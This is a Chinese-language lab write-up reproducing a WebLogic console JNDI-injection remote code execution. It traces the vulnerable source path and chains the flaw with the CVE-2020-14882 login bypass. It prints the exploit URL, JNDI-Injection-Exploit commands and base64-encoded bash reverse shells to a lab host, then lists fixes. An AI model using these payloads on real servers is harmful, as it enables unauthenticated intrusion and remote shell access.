# WebLogic Server 远程代码执行漏洞复现
>问题根源：JndiBindingHandle类的构造函数直接使用了用户输入的字符串作为JNDI查询地址，并且没有进行充分的安全校验
## 漏洞原理
WebLogic 的 /console/consolejndi.portal 接口可以调用存在 JNDI 注入漏洞的 com.bea.console.handles.JndiBindingHandle 类，从而造成 RCE。
## 环境搭建
1. 漏洞环境：vulhub搭建
2. 攻击环境：windows物理机+kali虚拟机
## 漏洞分析
1. 源码获取
   在vulhub中使用docker cp命令获取jar包
   
   然后c传递物理机上
   
   进行反编译获得源码
   
2. 源码sink分析
   在JNDIBindingAction类中调用c.lookup(prefix + suffix) 获取对象
   
   进入sink的前提是serverMBean != null，c != null
3. 先看c是否可控，Context c = ConsoleUtils.initNamingContext(serverMBean)
   
4. 接着追踪看serverMBean是否可控，serverMBean = getDomainMBean().lookupServer(serverName);
   
5. 接着追踪参数来源serverName查看是否可控
    
   发现参数来自JNDIBindingHandle构造函数的参数
6. 根据getAnyServerMBean 的行为：这个方法需要一个存在的、有效的 Server 名称才能返回非 null 的 MBean。AdminServer 是默认配置下唯一保证存在的，因此应该包装serverName="AdminServer"
7. 接下来寻找lookup的参数来源， prefix = context，suffix = bindName
   
   接着寻找context和bindName
   
   
   
   最终发现参数完全来自JNDIBindingHandle构造函数的参数
8. 现在看来jndi的上下文和地址全都是用户可控只需要找到正确的参数名和参数值的格式即可构造payload
9. 接下来追踪JNDIBindingHandle 构造函数是谁调用的
   
   接着追踪getHandleContext调用
10. 在HandleUtils中调用了getHandleContext，并且可以通过getHandleContextFromRequest、getHandleContextFromForm、getHandleContextFromSession三种方式分别从request请求，form表单和session获得Handle对象
   
11. 接下来看getHandleContextFromRequest
   
   发现又调用 handleFromQueryString(request)对请求进行处理
12. 最终发现对请求的判断处理逻辑是如果请求参数中有以"handle"结尾的参数就把该参数的值通过ConvertUtils.convert为Handle对象
   
13. 而Struts 的 ConvertUtils.convert() 方法的工作原理是
   - 识别字符串格式：包名.类名("参数1;参数2;参数3")
   - 解析出类名和参数
   - 通过反射调用对应的构造函数
   - 返回实例化的对象
   也就是说我们可以通过构造一个含有完整包名和相应参数的类让ConvertUtils.convert()实例化一个Handle对象，并通过该参数的值控制prefix和suffix的值
14. 参数名的结构根据
   ```java
    // JNDIBindingAction.java 第29-30行
    JndiBindingHandle bindingHandle = (JndiBindingHandle) getHandleContext(
        actionForm, request, "JNDIBinding"  // ← 这个字符串是关键！
    );
   ```  
   可知字符串JNDIBinding被传递给了getHandleContext从而构造出了JndiBindingHandle对象，也就是说参数吗中要含有JNDIBinding
   根据Struts 框架的约定，参数名 = objectType + "Portlethandle"
   根据handleFromQueryString(request)要求，参数要以"handle"结尾
   所有最终推测出的参数名为JNDIBindingPortlethandle
15. 抓包查看确实有类似结构的参数名和参数值
   
16. 最终的payload格式为`/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://[IP]:1389/XXX;AdminServer%22)
`  %22是引号用来绕过waf
## 漏洞利用链
```
恶意Http请求
|
Portal框架解析 _pageLabel              <---路由到 JNDIBindingAction
|
HandleUtils查找 *handle 参数通过反射创建 JndiBindingHandle
|
JndiBindingHandle存储context, binding, server三个参数值                   <---进而控制jndi的上下文和查询url
|
c.lookup()                            <---触发jndi查询解析
|
访问"ldap://攻击者ip：1039/JNDI-Injection-Exploit攻击根据命令生成的字符串"
|
攻击者机器上的ldap服务返回给目标应用一个恶意类地址
|
目标应用访问url加载并实例化恶意类
|
执行恶意类的静态代码
|
RCE
```
## 漏洞复现
1. 首先利用CVE-2020-14882越权漏洞绕过登录验证
   访问/console/css/%252e%252e%252f/console.portal进入到控制台
    
2. 抓包固定ADMINCONSOLESESSION为刚刚访问console.portal时的值，然后注入构造好的payload
3. 构造简单payload测试一下，构造JNDI注入payload
   1. 使用JNDI-Injection-Exploit工具开启服务
      ```cmd
      java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/test123" -A 192.168.162.1
      ```
   2. 构造payload
      ```
      POST /console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.162;1:1389/udewyi;AdminServer%22)
      ```
   3. 触发jndi解析查询url,进入靶机容器查看命令是否执行
      
   4. 成功RCE
        
4. RCE实现反弹shell
   1. 攻击机监听4444端口`nc -lnvp 4444`
       
   2. 开启jndi服务
      ```cmd
      java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar  -C "bash -c {echo,bm9odXAgYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Mi4xMjkvNDQ0NA==}|{base64,-d}|{bash,-i}" -A 192.168.162.1
      ``` 
      
   3. 注入payload并检查是否获得反弹shell
      
      可以看到能够获得反弹shell但是会自动端断开连接 
   4. 最可能的原因：JNDI 工具生成的 Payload 是一次性的
      JNDI-Injection-Exploit 工具，其生成的 ExecTemplateJDK8.class 执行逻辑通常是：
      ```java
      // 伪代码
      public class ExecTemplate {
         static {
            // 执行命令
            Runtime.getRuntime().exec("你的命令");
         }
      }
      ```
      **关键问题**：命令是在 static 静态块中执行的，执行完后类加载完成，进程就结束了。没有保持 Shell 长期运行的机制。
   5. 改为后台执行,要执行的命令
      `nohup bash -c 'bash -i >& /dev/tcp/192.168.162.129/4444 0>&1' &`
      编码解码转换
      `bash -c {echo,bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Mi4xMjkvNDQ0NCAwPiYxJyAm}|{base64,-d}|{bash,-i}`
      ```cmd 
      java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar  -C "bash -c {echo,bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Mi4xMjkvNDQ0NCAwPiYxJyAm}|{base64,-d}|{bash,-i}" -A 192.168.162.1
      ```
   6. 重新发送新的恶意http
      
      这次可以获得一个稳定的shell
## 修复方案
- 及时下载官方补丁进行升级修复。下载地址如下：https://www.oracle.com/security-alerts/cpujan2021.html
- 关闭后台/console/console.portal的访问权限。
- 修改后台默认地址。进入默认的控制台，例如“localhost/console”，进入后点击左侧的 “域名称”-“高级选项”-“保存”，重启服务并清缓存。
